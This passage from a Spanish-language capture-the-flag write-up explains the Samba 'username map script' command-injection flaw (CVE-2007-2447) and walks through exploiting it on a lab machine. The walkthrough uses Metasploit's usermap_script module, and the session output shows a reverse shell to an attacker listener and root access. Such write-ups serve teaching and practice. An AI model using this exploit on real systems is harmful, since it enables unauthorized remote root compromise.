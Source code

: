 Nuevamente, `metasploit-framework` tiene escrito ya el exploit dentro del framework, así que pasemos a utilizarlo.

# Command Execution

Después de revisar este [exploit](https://github.com/amriunix/CVE-2007-2447), observaremos que su funcionamiento se basa en:

> The root cause is passing unfiltered user input provided via MS-RPC calls to /bin/sh when invoking non-default "username map script" configuration option in smb.conf, so no authentication is needed to exploit this vulnerability.

Básicamente cuando le pasamos el usuario durante la conexión, el nombre del usuario es usado para ejecutar comandos sobre sh, por lo que si mandamos expresiones de sustitución o evaluación script de sh, podemos ejecutar remotamente código que nos permita llamar a una conexión en reversa. Esto es lo que hace MSF tras bambalinas:

``` text
msf5 > use exploit/multi/samba/usermap_script
msf5 exploit(multi/samba/usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   139              yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf5 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP double handler on 10.10.14.23:4444
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 11hUeTXzLVKsyhQx;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "11hUeTXzLVKsyhQx\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.14.23:4444 -> 10.10.10.3:33932) at 2019-10-05 20:00:32 -0500


id
uid=0(root) gid=0(root)
```
